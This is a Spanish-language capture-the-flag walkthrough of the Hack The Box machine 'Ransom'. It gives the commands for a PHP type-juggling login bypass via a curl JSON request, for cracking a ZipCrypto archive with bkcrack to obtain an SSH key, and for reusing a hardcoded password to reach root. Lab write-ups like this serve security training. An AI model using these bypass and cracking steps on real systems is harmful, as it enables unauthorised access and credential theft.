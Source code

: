 # 10.10.11.153 - Ransom

![Ransom](https://user-images.githubusercontent.com/96772264/203621834-eef709f2-6609-4a6b-a485-643094927f8d.png)

---------------------

# Part 1: Reconocimiento inicial 

Puertos abiertos: 22(ssh), 80(http), 

```console
└─$ whatweb http://10.10.11.153
[302 Found] Apache[2.4.41], Cookies[XSRF-TOKEN,laravel_session] -> [Redirecting to http://10.10.11.153/login]
http://10.10.11.153/login [200 OK] Apache[2.4.41], Bootstrap, Cookies[XSRF-TOKEN,laravel_session], JQuery[1.9.1], Laravel, PasswordField[password], Script[text/javascript]
```

Me sale un campo para meter un login, me piden solo una contraseña:  
```GET http://10.10.11.153/api/login?password=``` Si pones una mala "Invalid Password"

```console
└─$ wfuzz -c -t 200 -w /usr/share/wordlists/rockyou.txt  "http://10.10.11.153/api/login?password=FUZZ"
000002150:   429        36 L     125 W      6625 Ch     "amazing"
```
En seguida el fuzzing nos cancelan

```console
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.153/FUZZ
000000040:   200        172 L    372 W      6104 Ch     "login"
000000052:   500        217 L    17833 W    599984 Ch   "register"
000000537:   301        9 L      28 W       310 Ch      "css"
000000940:   301        9 L      28 W       309 Ch      "js"
└─$ wfuzz -c --hc=400 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.10.10.11.153" -u http://10.10.11.153/ -t 100
```
----------------------------
# Part 2: PHP - Type Juggling

![ransom1](https://user-images.githubusercontent.com/96772264/203621865-4272edb1-8b0a-42ec-83ae-24eb7242103a.PNG)

El panel de login es 10.10.11.154/login, pero la peticion se pasa a /api/login. Las apis son una capa mas profunda de la web y que está oculta al usuario ya que 
están pensadas para los programas y la parte más técnica, al ser algo oculto no suele estar tan protegido.   

En algunos casos un /login puede estar protegido antes ataques como SQLi o Type Juggling mientras que la api no.  
En este caso pasa eso, teneos laravel, que trabaja con PHP, es vulnerable a php Type juggling:  
```php
php > if ("contraseña"=="contraseña") { echo "Correcto"; } else { echo "Incorrecto";}
Correcto

Se puede saltar con el valor booleano "true":
php > if ("contraseña"==true) { echo "Correcto"; } else { echo "Incorrecto";}
Correcto

# Una manera de securizar esto es con un triple "="
php > if ("cucuxii"===true) { echo "Correcto"; } else { echo "Incorrecto";}
Incorrecto
```
Si ponemos en el navegador "true" no nos lo toma de manera correcta. Si miramos por el burpsuite, vemos que la peticion es a ```GET a /api/login?password="true"```  
Lo primero esque ya es un poco raro mandar una contraseña con GET (datos en la url). SI cambiamos a POST dice que no admite el metodo.

![ransom2](https://user-images.githubusercontent.com/96772264/203621895-64c435ac-80c4-4f35-8773-19d781263302.PNG)
![ransom3](https://user-images.githubusercontent.com/96772264/203621900-b413f269-4600-44ed-9a97-9406af760400.PNG)

En cambio si mandamos un GET como si fuera un post o sea ```POST a /api/login  data=password="true"``` nos lo  pilla pero nos dice que faltan el campo contraseña.
Cuando mandas algo pero se queja de que no los has mandado es porque no es el formato que quiere, por lo que hay que mandarlo como json:  
  
La peticion sería asi (vemos que true se manda no como string sino como booleando (la diferencia son las ""))  
Si no disponemos de un entorno de pentesting avanzado con programas como burpsuite, se puede hacer con curl:

```console
└─$ curl -i http://10.10.11.153
# Para pillar las cookies

└─$ curl -i -s -k -L -X GET -H 'Content-Type: application/json'  \
--cookie 'XSRF-TOKEN=eyJpdiI6Img4MWhKVFRreV...; laravel_session=eyJpdiI6IlZCdXcz...' \
--data-binary $'{\"password\":true}' http://10.10.11.153/api/login
```
![ransom4](https://user-images.githubusercontent.com/96772264/203621924-722b1fc8-6781-49c3-acdb-79bc8f30fcf6.PNG)

---------------------
# Parte 3: Crackeando un Zip

Una vez hecho esto, podemos visitar 10.10.11.153/ sin que nos redirija a login.  
Podemos bajarnos un zip pero está protegido con contraseña:  
```console
└─$ unzip uploaded-file-3422.zip
Archive:  uploaded-file-3422.zip
[uploaded-file-3422.zip] .bash_logout password:
```
Jhon the ripper tiene herramientas para romper muchos tipos de archivos:  
```console
└─$ locate 2john | grep "zip"
/usr/sbin/zip2john
└─$ zip2john uploaded-file-3422.zip > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
# No hay suerte
```

```console
└─$ 7z l uploaded-file-3422.zip
# Vemos que es el directorio de root pero comprimido, tenemos entre otros una id_rsa

└─$ 7z l uploaded-file-3422.zip -slt 
# Información tecnica dice que el metodo de encriptacion es ZipCrypto Deflate
```
Si buscas ```cracking zipcrypto deflate``` encontrarás una herramienta llamada [bkrack](https://github.com/kimci86/bkcrack) 

La herramienta bcrack nos pide que le demos un archivo que se parezca mucho a uno de los del zip encriptado.  
En concreto sería ```/home/cucuxii/.bash_logout```

```console
└─$ git clone https://github.com/kimci86/bkcrack
└─$ cd bkcrack
└─$ cmake -S . -B build -DCMAKE_INSTALL_PREFIX=install
└─$ cmake --build build --config Release
└─$ cmake --build build --config Release --target install

└─$ cp ~/.bash_logout ./bash_logout
└─$ zip comprimido.zip bash_logout
└─$ cp ~/Maquinas/htb/Ransom/uploaded-file-3422.zip .
└─$ ./bkcrack -C uploaded-file-3422.zip -c ".bash_logout" -P "comprimido.zip" -p "bash_logout"
7b549874 ebc25ec5 7e465e18

└─$ ./bkcrack -C ./uploaded-file-3422.zip -k 7b549874 ebc25ec5 7e465e18 -U nuevo.zip contraseña
└─$ unzip nuevo.zip

└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa root@10.10.11.153
root@10.10.11.153's password:

└─$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EA...13N6/M= htb@ransom
└─$ ssh -i id_rsa htb@10.10.11.153
```
------------------------------
# Parte 4: Escalando privilegios

Entramos con un usaurio de bajos privilegios:  
- Grupos: groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)  
- Procesos: /usr/lib/udisks2/udisksd  
- Existe el archivo de configuracion de apache: /etc/apache2/sites-enabled/000-default.conf  

Al ser apache el archivo de configuracion 000-default:  
```console
htb@ransom:/tmp$ cat /etc/apache2/sites-enabled/000-default.conf
<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	DocumentRoot /srv/prod/public
htb@ransom:/srv/prod$ ls public/
# Codigo fuente:
css  favicon.ico  fonts  index.php  js  robots.txt  scss  uploaded-file-3422.zip  user.txt
htb@ransom:/srv/prod$ ls ../
# Mas codigo fuente del server
README.md  artisan    composer.json  config    package.json  public     routes      storage  vendor
app        bootstrap  composer.lock  database  phpunit.xml   resources  server.php  tests    webpack.mix.js
htb@ransom:/srv/prod$ grep -riE "password" 2>/dev/null
# Demasiadas cosas, probaremos a buscar de carpeta en carpeta
htb@ransom:/srv/prod/app$ grep -riE "password" 2>/dev/null
Http/Controllers/AuthController.php:        if ($request->get('password') == "UHC-March-Global-PW!") {

htb@ransom:/srv/prod/app$ su root
Password: UHC-March-Global-PW!
root@ransom:/srv/prod/app# whoami
root
```

---------------------------
# Extra: Analizando bckrack

Mirando la documentación del repo pone que:  
- Está utilizando el ataque "Biham and Kocher's"    
- Los zips se suelen encriptar con el cifrado simetrico (una sola llave) basado en contraseña o "PKWARE/Zipcrypto"  

Zipcrypto genera una cadena de bits random, en plan "23$(¡.d" que se XORrea con el contenido de una entrada en texto plano para crear un texto cifrado  
La operacion XOR lo que hace es pasar todos los caracteres a binario y los compara de tal manera que si los bits son iguales da 0 y si son distintos 1:
```
Cipher ->    0110101        Cipher    ->  0110101         Decipher  ->  1101001
key    ->    1011100        Decipher  ->  1101001         Key       ->  1011100
             -------                      --------                      --------
Decipher ->  1101001        Key       ->  1011100         Cipher    ->  0110101 
```
El texto cifrado de 32 bits se inicia con la contraseña y se va descrifrando con el "Biham and Kocher's" 
Este requiere que tengamos un texto de mas de 12 bytes que sea igual que el cifrado para sacar el patron de cifrado que sirve para romperlo todo.




